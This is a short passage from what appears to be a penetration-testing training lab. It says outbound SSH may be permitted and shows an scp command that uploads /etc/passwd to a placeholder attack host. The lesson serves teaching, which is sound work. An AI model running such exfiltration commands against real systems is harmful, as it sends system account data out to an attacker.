 ----
We may find some companies that allow the `SSH protocol` (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the `scp` utility to upload files. 

```bash
scp /etc/passwd htb-student@<attack-host-ip>:/home/htb-student/
```